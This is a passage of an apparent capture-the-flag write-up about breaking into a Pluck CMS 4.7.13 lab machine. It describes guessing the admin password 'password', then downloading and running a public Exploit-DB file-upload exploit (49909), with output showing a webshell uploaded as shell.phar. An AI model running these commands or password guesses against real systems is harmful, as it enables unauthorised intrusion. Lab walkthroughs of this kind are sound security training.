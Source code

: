 ![pluck page](./pic/pluck_page.png)
	
As the title says it is a [Pluck-cms](https://github.com/pluck-cms/pluck), an opensource CMS.<br>
If we look a bit further we can see that there is a login page on `/app/pluck-4.7.13/login.php`:
	
![login pluck](./pic/login_pluck.png)
	
I tried as always a bit of weak passwords like:

- admin
- administrator
- password

And eventually i had luck with `password`
	
![login](./pic/login.png)
	
Now that we are logged i tried to do something in the admin page but didn't found much, so i searched online some known exploits, and fond [this](https://www.exploit-db.com/exploits/49909).<br>
It is a file upload vulnerability that doesn't check the extension.<br>
We can run the exploit like this(i left the default payload, in a real scneario i would change the shell to an obfuscated one):
```bash
curl https://www.exploit-db.com/download/49909 -o  49909.py
python3 49909.py 10.10.144.50 80 password /app/pluck-4.7.13
```
output:
```bash

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.144.50:80/app/pluck-4.7.13/files/shell.phar
```